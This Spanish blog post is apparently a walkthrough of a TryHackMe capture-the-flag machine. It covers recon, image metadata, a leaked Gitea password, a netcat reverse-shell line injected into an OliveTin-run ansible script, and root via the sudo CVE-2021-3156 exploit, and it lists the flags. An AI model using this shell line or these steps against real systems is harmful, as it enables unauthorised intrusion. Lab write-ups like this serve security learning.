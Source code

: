 ```yaml
---
title: Cat Picture 2
layout: post
image: 
    path: /assets/covers/tryhackme.png
autor: AreiaNight
tags: [catpicture2, writeup, tryhackme]
category: Pentesting
---
```


Vale, el día de hoy vamos a hacer la máquina Cat Picture 2, porque no sabía que existía la primera. Como sea, algo me dice que esto va a tener que ver con mensajes ocultos en imágenes y eso me emociona de cierta forma. Antes de nada, como siempre, empezamos con nuestro nmap de toda la vida para ver si hay puertos abiertos. 

Hay varios puertos abiertos, por ahora los que más me interesan como siempre son el 80 que por alguna razón tenemos dos, el 8080 y el 22. En el mismo nmap mostró algo interesante al momento de mandar los scripts básicos de reconocimiento y es que existe un directorio al que se puede acceder llamado /.git lo que quiere decir que hay un repositorio por ahí y quizá es dónde tenga que empezar. Una vez el plan listo, decidí ir a mi navegador para explorar más aquel directorio y... está forbbiden. Como sea, también se encontró un robots.txt así que al menos ahí si pude ingresar en dónde pude recopilar información interesante. 

![](/assets/post/Cat/1.png)

Mientras hacía eso, decidí entrar a la main page y pues no es nada muy elaborado, una simple página con gatitos. Sin embargo en la misma página nos dice con que está hosteada, con un servicio llamado Lychee 3.1 y también Nginx. Mientras exploraba los puertos encontré una sección que parecía ser un dashboard llamado OliveTin. Para mi suerte, tenía un enlace en la descripción justo a la documentación y ahí pude averiguar que es una simple aplicación para volver "fácil" la ejecución de comandos... ¡Ejecución de comandos! Podría ser una posible ruta de entrada. En este dashboard vi que podíamos hacer un pin y recordé que cuando hice una máquina de vulhub hace tiempo por ahí se podía mandar un comando para una shell.

PERO antes de hacer todo eso, vamos paso a paso. La máquina se llama Cat Picture 2, por ende (y a menos que no sea como al máquina de tr0ll), supongo que algo deben tener las fotos de los gatos. Así que bajé todas las imágenes y no les cambié el nombre en caso de que sea necesario para futuro o que ésta misma sea la posible frase para sacar información. Para analizar los metadatos tenemos varias herramientas, pero en este caso usaré exiftool que por cierto, para arch por alguna razón solo lo puedes correr como usuario sin privilegios. Después de sacar toda la información de las imágenes, en la última, algo me llamó la atención. Parece ser un directorio en el puerto 8080, por lo que no sería mala idea irse por ahí. 

![](/assets/post/Cat/2.png)

Una vez en dicho directorio, lo que nos recibe es un simple txt con información de lo más interesante. Entre los puertos hay uno muy especifico que te lleva a un servicio de git tea, al inicio de todo esto decidí registrarme para ver si encontraba algo interesante por ahí y solamente había una cosa, un usuario llamado samarium y ya. En este pequeño documento en txt no solo estaba el nombre de dicho usuario de nuevo, sino también la contraseña de éste junto con información del servicio de OliveTin que ya había mencionado anteriormente. 

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

![](/assets/post/Cat/3.png)

Una vez adentro tenemos nuestra primera flag que puede ser encontrada en el repositorio de éste mismo usuario. Al parecer tiene dicho repositorio privado, lo que explicaría porque no encontré nada interesante en mi primera exploración por el git.

>! Flag: 10d916eaea54bb5ebe36b59538146bb5

Con acceso al git del usuario, podemos ver que su único repositorio tiene el nombre de ansible, el nombre se me hizo familiar así que al regresar al olivetin, vi que es el mismo script que se ejecuta. Con esto en mente, supuse que podría editar el script que se corre simplemente modificando el script base para que se agregue una línea en dónde me pueda mandar una shell a mi equipo. Con el plan listo, fue tiempo de empezar a ejecutarlo. Primero leí un poco la documentación del olivetin para saber cómo modificar el file yml, con la información lista el código que decidí agregar fue este: 

```
shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.1.187 5500 >/tmp/f
```

Y con eso, tenemos acceso remoto a la máquina que queremos comprometer, además de tener la segunda flag:

>! Flag: 5e2cafbbf180351702651c09cd797920

![](/assets/post/Cat/4.png)

Con esto listo, solo nos falta una última flag, así que vamos a empezar a hacer pruebas y demás cositas para poder tener privilegios de root que es dónde supongo estará la siguiente flag. Mientras exploraba que sistema era, descubrí que el sudo es vulnerable, así que quizá pueda escalar por ahí. Antes que nada, necesito la contraseña de bismuth, pero después de explorar un buen rato no encontré nada relacionado que nos pueda dar una pista, decidí simplemente cambiar la contraseña. Algo que tiene linux es que no te pide que metas tu "anterior contraseña" así que con eso listo ya tenemos pleno acceso a la cuenta y, sobre todo, a usar el sudo con éste.  Ahora sí, tiempo de ver si el sudo es vulnerable a esta [[https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435|vulnerabilidad]]. 

![](/assets/post/Cat/5.png)

Una vez confirmado que, en efecto, el sudo es vulnerable, es tiempo de la escalada de privilegios. Para eso voy a recurrir a este [[https://github.com/blasty/CVE-2021-3156|exploit]] para automatizar todo. Corremos el script con un simple make para compilarlo, ejecutamos seleccionando nuestra versión de sudo vulnerable y listo, tenemos acceso a root. Ahora, solo debemos irnos al directorio /root y tendremos la flag.

>! Flag: 6d2a9f8f8174e86e27d565087a28a971

![](/assets/post/Cat/6.png)